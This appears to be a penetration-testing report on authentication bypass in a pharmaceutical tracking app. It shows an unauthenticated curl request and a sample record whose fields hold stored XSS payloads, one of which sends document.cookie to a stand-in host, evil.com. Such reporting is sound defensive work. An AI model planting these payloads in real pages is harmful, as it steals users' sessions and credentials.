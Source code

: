# Authentication & Authorization Bypass Testing Report
## PharmaChain Security Assessment - Authentication Controls

### EXECUTIVE SUMMARY
**Assessment Date**: January 21, 2025  
**Target Application**: PharmaChain Pharmaceutical Tracking System  
**Testing Method**: Authentication Bypass & Privilege Escalation Testing  
**Overall Risk**: 🔴 **CRITICAL FAILURE** - Complete authentication bypass confirmed

---

## AUTHENTICATION BYPASS TEST RESULTS

### Test 1: Protected Route Access Without Authentication

#### Test Case: Accessing Pharmaceutical Data Without Login
```bash
# Command Executed:
curl -s "http://localhost:5000/api/batches" | jq '.[0]'

# Expected Result: 401 Unauthorized or 403 Forbidden
# Actual Result: 200 OK - Full data access granted
```

**🔴 CRITICAL FINDING: COMPLETE AUTHENTICATION BYPASS**
- **Status**: ✅ **SUCCESSFUL BYPASS**
- **Data Exposed**: Complete pharmaceutical batch database
- **Records Retrieved**: 6 batches with full manufacturing details
- **No Authentication Required**: Zero security controls present

#### Sample Exposed Data:
```json
{
  "id": 6,
  "batchId": "<script>alert(\"XSS\")</script>",
  "productName": "<img src=x onerror=alert(1)>",
  "manufacturer": "</textarea><script>document.location=\"http://evil.com\"</script>",
  "manufacturerLicenseId": "<svg onload=alert(\"SVG_XSS\")>",
  "lotNumber": "<iframe src=javascript:alert(\"iframe\")>",
  "quantity": 1000,
  "unit": "units",
  "manufacturingDate": "2025-01-21",
  "expiryDate": "2026-01-21",
  "location": "<script>fetch(\"http://evil.com/steal?data=\"+document.cookie)</script>",
  "status": "MANUFACTURED",
  "temperatureSensitive": "true",
  "txHash": null,
  "createdAt": "2025-08-21T17:32:54.183Z"
}
```
